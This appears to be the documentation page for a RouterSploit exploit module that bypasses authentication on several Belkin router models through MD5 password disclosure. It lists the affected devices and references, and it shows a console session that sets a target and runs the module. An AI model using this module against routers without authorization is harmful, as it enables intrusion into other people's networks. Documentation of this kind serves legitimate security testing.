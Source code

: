 # Belkin Auth Bypass

## Description
Module exploits Belkin authentication using MD5 password disclosure

## Authors
* Gregory Smiley <gsx0r.sec[at]gmail.com> # vulnerability discovery
* BigNerd95 (Lorenzo Santina) # improved exploit and routersploit module

## References
* [https://securityevaluators.com/knowledge/case_studies/routers/belkin_n900.php](https://securityevaluators.com/knowledge/case_studies/routers/belkin_n900.php)
* [https://www.exploit-db.com/exploits/40081/](https://www.exploit-db.com/exploits/40081/)

## Vulnerable devices
* Belkin Play Max (F7D4401)
* Belkin F5D8633
* Belkin N900 (F9K1104)
* Belkin N300 (F7D7301)
* Belkin AC1200

## Usage
```
rsf > use exploits/belkin/auth_bypass
rsf (Belkin Auth Bypass) > show options

Target options:

   Name       Current settings     Description
   ----       ----------------     -----------
   target                          Target address e.g. http://192.168.1.1
   port       80                   Target Port


rsf (Belkin Auth Bypass) > set target 192.168.1.1
[+] {'target': '192.168.1.1'}
rsf (Belkin Auth Bypass) > run
[*] Running module...
```
